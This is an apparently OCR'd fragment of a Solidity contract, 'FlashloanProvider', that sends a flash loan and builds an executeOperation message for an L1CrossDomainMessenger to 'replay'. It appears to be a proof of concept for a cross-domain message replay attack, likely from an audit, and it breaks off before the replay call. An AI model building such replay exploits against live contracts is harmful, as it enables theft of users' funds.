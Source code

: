 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

interface IL1CrossDomainMessenger {
    function relayMessage(
        uint256 _nonce,
        address _sender,
        address _target,
        uint256 _value,
        uint256 _minGasLimit,
        bytes calldata _message
    ) external;
}

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);

    function balanceOf(address account) external view returns (uint256);
}

contract FlashloanProvider {
    uint256 nonce;
    uint256 premium;
    address immutable BobAddress;
    IL1CrossDomainMessenger iL1CrossDomainMessenger;

    constructor(
        address _l1CrossDomainMessengerAddress,
        address _bobAddress,
        uint256 _premium
    ) {
        iL1CrossDomainMessenger = IL1CrossDomainMessenger(
            _l1CrossDomainMessengerAddress
        );
        BobAddress = _bobAddress;
        premium = _premium;
    }

    function setNonce(uint256 _nonce) public {
        nonce = _nonce;
    }

    function flashLoan(
        address receiverAddress,
        address asset,
        uint256 amount
    ) public {
        // tracking the balance
        uint256 balanceBefore = IERC20(asset).balanceOf(address(this));

        // transferring the loan to the receiver
        IERC20(asset).transfer(receiverAddress, amount);

        // providing the message that will be called by L1CrossDomainMessenger
        bytes memory message = abi.encodeWithSignature(
            "executeOperation(address,uint256,uint256)",
            asset,
            amount,
            premium
        );

        // replay the message again.
```
